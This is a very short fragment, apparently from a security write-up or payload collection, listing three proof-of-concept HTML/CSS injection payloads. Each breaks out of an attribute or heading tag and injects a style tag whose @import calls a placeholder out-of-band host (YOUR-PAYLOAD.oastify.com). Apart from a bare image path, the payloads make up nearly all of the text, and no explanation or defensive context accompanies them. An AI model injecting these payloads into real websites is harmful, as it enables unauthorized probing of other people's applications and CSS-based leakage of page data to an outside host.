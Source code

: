 some PoCs:

"><style>@import'//YOUR-PAYLOAD.oastify.com'</style>

'><style>@import'//YOUR-PAYLOAD.oastify.com'</style>

'</h1><style>@import'//YOUR-PAYLOAD.oastify.com'</style>

